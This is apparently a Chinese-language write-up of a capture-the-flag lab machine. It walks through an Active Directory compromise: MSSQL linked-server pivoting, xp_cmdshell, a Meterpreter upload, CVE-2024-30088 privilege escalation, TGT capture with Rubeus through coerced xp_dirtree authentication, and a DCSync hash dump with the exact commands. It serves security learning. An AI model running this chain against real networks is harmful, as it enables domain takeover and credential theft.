

## 00. 摘要

1. 靶机提供了初始账户 `john.w / RFulUtONCOL!`
2. 信息收集，发现该账户可以登录mssql服务
3. 在mssql中 `enum_link` 发现可以 `use_link "DC02.darkzero.ext"`
4. 然后上传msf，用 `local_exploit_suggester` 搜索本地提权
5. 用 CVE-2024-30088提权到SYSTEM
6. 然后在DC02上使用Rubeus监听，在DC01的mssql上使用 xp_dirtree 访问DC02上不存在的文件共享，触发Kerberos认证，拿到`DC01$`的TGT
7. 保存该TGT。然后通过票据传递使用 DCSync 获取整个域的哈希。

## 01. 信息收集

端口扫描发现以下开放端口

```bash
$ rustscan -u 5000 -a 10.129.189.255
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
I scanned my computer so many times, it thinks we're dating.

[~] The config file is expected to be at "/home/lambermaybe/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.129.189.255:53
Open 10.129.189.255:88
Open 10.129.189.255:135
Open 10.129.189.255:139
Open 10.129.189.255:464
Open 10.129.189.255:593
Open 10.129.189.255:636
Open 10.129.189.255:1433
Open 10.129.189.255:445
Open 10.129.189.255:389
Open 10.129.189.255:2179
Open 10.129.189.255:5985
Open 10.129.189.255:9389
Open 10.129.189.255:49664
Open 10.129.189.255:49668
Open 10.129.189.255:49676
Open 10.129.189.255:49677
Open 10.129.189.255:49897
Open 10.129.189.255:49926
Open 10.129.189.255:50004
Open 10.129.189.255:55333
```

使用预先提供的 `john.w` 账户进行枚举，发现可以访问 mssql 服务。使用 `impacket-mssqlclient` 连接 mssql 并进行 `enum_link` 发现存在一个 `DC02.darkzero.ext` 的 link 可以使用。

```bash
impacket-mssqlclient 'john.w':'RFulUtONCOL!'@'10.129.189.255' -windows-auth
SQL > enum_links
```

## 02. DC02

### 02.02 DC02用户权限

参考 [MSSQL](/blog/MSSQL)  可以使用 use_link 横向移动到 DC02 上。

然后我们使用 `enable_xp_cmdshell` 启用 `xp_cmdshell`。

在执行 `xp_cmdshell "whoami"` 可以看到当前是 `svc_sql` 账户权限

```bash
SQL > use_link "DC02.darkzero.ext"
SQL > enable_xp_cmdshell
SQL > xp_cmdshell "whoami"
```

### 02.02 DC02管理员权限

生成一个 msf 的shell传到服务器上并执行，得到 `svc_sql` 权限的 `meterpreter`。

然后利用 msf 的 `local_exploit_suggester` 模块，扫描可用的本地提权模块

逐个尝试之后，发现可以使用 `exploit/windows/local/cve_2024_30088_authz_basep` 进行提权。拿到 `SYSTEM` 权限

## 03. DC01

既然有 DC02 的 `SYSTEM` 权限了，我们就可以监听任何向 DC02 发起的 Kerberos 认证，并捕获 认证过程中所使用的 `TGT` 了。然后利用捕获到的 `TGT` 进行 Pass The Ticket 票据传递攻击。

首先往 DC02 上，上传 `Rubeus.exe` （目的是监听Kerberos认证并捕获TGT，可以直接从github下载[编译好的Rubeus](https://github.com/Flangvik/SharpCollection)）

```bash
Rubeus.exe monitor /interval:5 /nowrap
```

然后在 DC01 上，使用 `xp_dirtree //DC02.darkzero.ext/shares` 访问任意一个不存在的 共享目录，触发 Kerberos 认证。

这样就可以捕获到 `DC01$` 这台机器的 TGT 了，然后使用票据传递进行 DCSync 拖取整个域的哈希。

```bash
cat TGT | base64 -d > dc01.kirbi
impacket-ticketConverter dc01.kirbi dc01.ccache

export KRB5CCNAME="dc01.ccache"
impacket-secretsdump 'DC01$'@'DC01.darkzero.htb' -k -no-pass
```

---


